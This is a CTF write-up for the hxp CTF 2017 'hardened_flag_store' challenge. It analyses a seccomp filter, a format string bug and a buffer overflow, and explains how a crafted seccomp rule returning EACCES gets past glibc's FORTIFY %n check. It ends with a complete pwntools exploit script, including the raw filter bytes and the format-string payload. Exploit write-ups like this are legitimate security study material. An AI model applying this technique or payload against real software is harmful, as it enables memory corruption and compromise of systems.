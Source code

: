 ```yaml
---
type: ctf
title: hxp CTF 2017 -- hardened_flag_store
tags: [Pwnable, seccomp]
date: 2017-11-20
author: Eno Leriand
---
```


The program will read a secret string from "secret.txt" and store the string address on stack. Then it will use seccomp to create a whitelist of syscalls. We can analyze the filter by using [seccomp-tools](https://github.com/david942j/seccomp-tools):  

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000003  if (A != close) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

So now the program are only allowed to use the following system calls: `exit`, `read`, `write`, `open` and `close`.  

After that the program will do the following ( pseudo code ) :  

```c
int cnt = 16;
int has_seccomp = 0;
while (cnt--)
{
    read(0, input, 96); // read user input
    if (!has_seccomp) init_seccomp(); // set up seccomp rule
    len = strlen(secret_string) + 1;
    for ( i = 0LL; ; i++ ) // check if input == secret_string
    {
        if ( len - 1 == i )
            goto LABEL_19;
        if ( secret_string[i] != input[i] )
            break;
    }
    puts("Wrong secret :/");
    if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
    _fprintf_chk(stderr, 1LL, input); // <-- format string vuln
    has_seccomp = 1;
}
```

We can spot a format string vulnerability @ line 19. Although the secret string's address is stored on stack, however the output of `_fprintf_chk` is set to stderr, so we can't use `%s` to leak the secret string.  

But there's still one way to bypass the check. At line 16:  

```c
if ( strlen(secret_string) == i )
LABEL_19:
        openflag(); // input == secret_string, open flag.txt and print it to stdout
```

If we can overwrite the first character of the secret string to a null byte, and input a random string, both `strlen(secret_string)` and `i` will be `0`, thus bypass the check and will print out the flag.  

However this will require us to use the `%n` format string payload -- which in this case will be blocked by the seccomp filter:  

```
$ ./flag_store
%n
Wrong secret :/
[1]    5295 invalid system call  ./flag_store
```

Fortunately my teammate found that there's a buffer overflow vulnerability while reading the user input. We can input at most 96 chars to the buffer, while its size is only 32. Moreover, this make us able to overwrite the seccomp rule ! So then we overwrite the seccomp rule with a bunch of null bytes and send the `%n` character:

```
[*] Sending null bytes
[*] Sending fmt payload
[*] Switching to interactive mode
Wrong secret :/
Wrong secret :/
*** %n in writable segment detected ***
[*] Got EOF while reading in interactive
```

OK, so we successfully overwrite the seccomp rule, but still the `%n` payload was blocked by `_fprintf_chk`, which is a more secure version of `fprintf`. At this point I started to think that maybe we need to write some seccomp rules to bypass the format string check.

And so I started reading the [glibc source code](https://code.woboq.org/userspace/glibc/stdio-common/vfprintf.c.html#__readonly_area):

```c
................
    {                                                                      \
      extern int __readonly_area (const void *, size_t)                      \
        attribute_hidden;                                              \
      readonly_format                                                      \
        = __readonly_area (format, ((STR_LEN (format) + 1)              \
                                    * sizeof (CHAR_T)));              \
    }                                                                      \
  if (readonly_format < 0)                                              \
    __libc_fatal ("*** %n in writable segment detected ***\n");              \
}  
```

Hmmmm, looks like we'll have to make `readonly_format >= 0` so it won't call `__libc_fatal ("*** %n in writable segment detected ***\n");`. Let's trace into the [__readonly_area() function](https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/readonly-area.c.html#__readonly_area):

```c
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
         available to this process (e.g., because it runs in a chroot
         environment.  Don't fail in this case.  */
      if (errno == ENOENT
          /* The kernel has a bug in that a process is denied access
             to the /proc filesystem if it is set[ug]id.  There has
             been no willingness to change this in the kernel so
             far.  */
          || errno == EACCES)
        return 1;
      return -1;
    }
    ...................
```

Ah ha ! We can see that `__readonly_area` will call `fopen()`, and see if its `errno` is equals to `EACCES` or `ENOENT`. **If so, it will return 1** !! Since we can write our own seccomp rule, we can totally make this happen !

So first we create our own seccomp rule:

```
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok # check the 3rd arg of open()
magic:
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```

Notice that in order to make `open("flag.txt", 0x80000)` ( in the `openflag()` function ) works normally, we'll have to add the rule `A == 0x1b6 ? magic : ok`. This indicates that if the 3rd argument of `open()` equals to `0x1b6`, return `ERRNO(13)`, otherwise allow the system call. I wrote this rule because I found that when `__readonly_area()` calls `fopen ("/proc/self/maps", "rce");`, the 3rd argument of `open()` was exactly `0x1b6`.  

By using the [asm](https://github.com/david942j/seccomp-tools#asm) feature of the seccomp-tools, we can generate the raw bytes of our seccomp rule:

```
$ cat ./rule 
# # check if arch is X86_64
A = arch
A == 0xc000003e ? next : ok
A = sys_number
A == open ? next : ok
A = args[2]
A == 0x1b6 ? magic : ok
magic:
return ERRNO(13)
ok:
return ALLOW

$ seccomp-tools asm ./rule
" \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"

```

At last we apply our seccomp rule, exploit the format string vulnerability to bypass the check and get the flag:

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

# from brucepwn import *

HOST = "35.198.105.104"
PORT = 10000
ELF_PATH = "./flag_store"
LIBC_PATH = ""

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = elf.libc if not LIBC_PATH else ELF(LIBC_PATH)
if not libc: log.warning("Failed to load libc")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = elf.process() # elf.process(argv=[argv1, argv2,...])

    payload = "\x00"*0x20
    payload += " \x00\x00\x00\x04\x00\x00\x00\x15\x00\x00\x05>\x00\x00\xC0 \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x03\x02\x00\x00\x00 \x00\x00\x00 \x00\x00\x00\x15\x00\x00\x01\xB6\x01\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
    print "len:", len(payload)
    assert len(payload) <= 96
    r.sendline(payload)
    time.sleep(1)
    r.sendline("%128c%128c%hhn")
    time.sleep(1)
    r.sendline("1")
    r.interactive()


```

flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`


First blood on this one ! WOOHOO ! 😎
